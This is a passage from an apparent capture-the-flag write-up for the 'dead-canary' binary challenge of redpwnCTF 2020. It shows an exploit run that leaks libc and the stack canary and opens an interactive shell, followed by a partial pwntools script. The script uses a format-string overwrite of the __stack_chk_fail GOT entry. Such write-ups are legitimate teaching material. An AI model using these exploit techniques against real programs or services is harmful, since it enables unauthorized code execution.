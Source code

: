 Output:

```bash
# ./exploit7.py
[*] '/pwd/datajerk/redpwnctf2020/dead-canary/bin/dead-canary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for './dead-canary'
[+] Opening connection to 2020.redpwnc.tf on port 31744: Done
[*] printf: 0x7fe4ffd8ae80
[*] baselibc: 0x7fe4ffd26000
[*] canary: 0xd8ef9ff82f8c1b00
[*] Switching to interactive mode
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
$ cat flag.txt
flag{t0_k1ll_a_canary_4e47da34}
```


### Option 2: Change `printf` to `system` (no canary leak)


[exploit2.py](exploit2.py):

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./dead-canary')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.update(arch='amd64',os='linux')
binary.symbols['main'] = 0x400737

offset = 6
libcoffset = 41

#p = process(binary.path)
p = remote('2020.redpwnc.tf', 31744)

# first pass, inf. retries if we blow out canary, leak libc
p.recvuntil('name: ')
payload  = b'%' + str(libcoffset).encode().rjust(2,b'0') + b'$018p'
payload += fmtstr_payload(offset+1,{binary.got['__stack_chk_fail']:binary.symbols['main']},numbwritten=18)
payload += ((0x118 - 0x10 + 1) - len(payload)) * b'A'
p.send(payload)
p.recvuntil('Hello ')
_ = p.recv(18)
__libc_start_main = int(_,16) - 231
log.info('__libc_start_main: ' + hex(__libc_start_main))
baselibc = __libc_start_main - libc.symbols['__libc_start_main']
log.info('baselibc: ' + hex(baselibc))
libc.address = baselibc

```